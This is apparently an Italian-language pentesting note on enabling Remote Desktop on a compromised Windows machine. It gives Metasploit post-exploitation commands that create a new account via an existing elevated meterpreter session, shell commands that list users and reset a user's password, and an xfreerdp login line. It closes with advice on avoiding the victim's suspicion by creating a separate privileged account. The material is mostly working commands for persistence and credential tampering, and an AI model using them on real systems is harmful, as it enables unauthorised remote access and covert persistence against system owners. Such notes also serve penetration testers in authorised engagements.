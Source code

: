 
# Abilitazione di RDP
RDP (Remote Desktop Protocol) é disabilitato di default nei sistemi windows. <br>
Esiste un modulo Meteasploit per poterlo abilitare ma dobbiamo avere prima una sessione meterpreter con dei privilegi elevati. <Br>
```bash
use post/windows/manage/enable_rdp
set SESSION 1
set PASSWORD <pasword>                 # impostiamo una password per l'account che il modulo creerà
set USERNAME <username>                # impostiamo uno username per l'account che il modulo creerà
run
```
> la password creata deve avere un carattere speciale e un numero

possiamo anche cambiare le credenziali di un utente se RDP é già abilitato. <br>
```bash
shell
net users          # per vedere che utenti sono presenti nel target
net user <username> <nuovaPassword>
```
per poterci autenticare con le nuove credenziali, usiamo `xfreerdp`
```bash
xfreerdp /u:<username> /p:<oassword> /v:<IP>
y

```
Questo metodono non é consigliato se non si volessero destare sospetti dato che se un utente dovesse vedere che la sua password non gli fará piú ottenere l'accesso al servizio RDP, potrebbe sospettare di essere stato soggetto ad un attacco, meglio se creiamo un altro account con permessi elevati e effettuiamo l'accesso da quello.

---
